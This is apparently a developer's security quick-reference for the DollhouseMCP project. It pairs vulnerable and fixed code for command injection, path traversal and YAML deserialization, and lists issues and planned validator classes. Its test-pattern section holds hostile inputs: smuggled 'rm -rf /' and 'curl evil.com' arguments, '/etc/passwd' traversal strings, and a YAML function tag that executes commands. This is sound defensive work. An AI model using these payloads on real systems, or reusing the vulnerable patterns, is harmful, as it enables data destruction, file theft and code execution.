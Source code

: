 # Security Quick Reference - DollhouseMCP

## Critical Vulnerabilities to Fix

### 1. Command Injection (#199)
```typescript
// VULNERABLE:
exec(`git pull ${userInput}`);

// SECURE:
CommandValidator.secureExec('git', ['pull']);
```

### 2. Path Traversal (#200)
```typescript
// VULNERABLE:
const path = `./personas/${userInput}`;

// SECURE:
const path = await PathValidator.validatePersonaPath(userInput);
```

### 3. YAML Deserialization (#201)
```typescript
// VULNERABLE:
const data = yaml.load(userYaml);

// SECURE:
const data = YamlValidator.parsePersonaMetadataSafely(userYaml);
```

## Security Test Commands
```bash
# Run critical security tests only
npm run security:critical

# Run all security tests
npm run security:all

# Pre-commit validation
npm run pre-commit

# Generate security report
npm run security:report
```

## Key Security Classes to Implement

### CommandValidator
- Whitelist allowed commands
- Validate all arguments
- Use spawn, not exec
- Restrict environment

### PathValidator
- Resolve to absolute paths
- Check against allowed directories
- Block traversal patterns
- Validate filenames

### YamlValidator
- Use CORE_SCHEMA only
- Zod schema validation
- Block code execution tags
- Sanitize output

### InputValidator
- Type validation
- Length limits
- Pattern matching
- Sanitization

### FileLockManager
- Prevent race conditions
- Atomic operations
- Timeout protection
- Deadlock prevention

## Vulnerable Patterns to Find

### Command Execution
```typescript
// Look for:
exec(), execSync()
child_process.exec
spawn with shell: true
```

### File Operations
```typescript
// Look for:
fs.readFile(userInput)
path.join('./personas', userInput)
No path validation
```

### YAML Parsing
```typescript
// Look for:
yaml.load()
gray-matter without safe options
No schema validation
```

## Test Patterns

### Command Injection Test
```typescript
const malicious = [
  ['git', ['pull', '&&', 'rm', '-rf', '/']],
  ['npm', ['install', ';', 'curl', 'evil.com']]
];
```

### Path Traversal Test
```typescript
const malicious = [
  '../../../etc/passwd',
  '..\\..\\windows\\system32',
  'personas/../../../secret'
];
```

### YAML Exploit Test
```typescript
const malicious = `
name: !!js/function "function(){require('child_process').exec('bad')}"
`;
```

## Priority Order
1. **Security test framework** - Can't fix without tests
2. **Command injection** - RCE vulnerability
3. **Path traversal** - File system access
4. **YAML deserialization** - Code execution
5. **Input validation** - Prevent all injections
6. **File locking** - Data integrity

## GitHub Issues
- #199: Command Injection
- #200: Path Traversal  
- #201: YAML RCE
- #202: Token Security
- #203: Input Validation
- #204: Race Conditions
- #205: Security Testing
- #206: Error Disclosure
- #207: Rate Limiting
- #208: Session Management

## Audit Files
- `/Users/mick/Developer/MCP-Servers/Notes/Audit-July-11th-2025/dollhousemcp_security_audit.md`
- `/Users/mick/Developer/MCP-Servers/Notes/Audit-July-11th-2025/dollhousemcp_testing_infrastructure.md`